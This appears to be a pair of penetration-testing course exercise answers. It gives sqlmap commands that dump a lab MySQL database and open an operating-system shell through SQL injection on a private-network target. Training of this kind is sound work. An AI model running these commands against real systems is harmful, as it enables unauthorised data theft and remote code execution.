


### 9.4.5.13 Exercises
#### 1. Use sqlmap to obtain a full dump of the database.

```bash
sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```



#### 2. Use sqlmap to obtain an interactive shell

```bash
sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

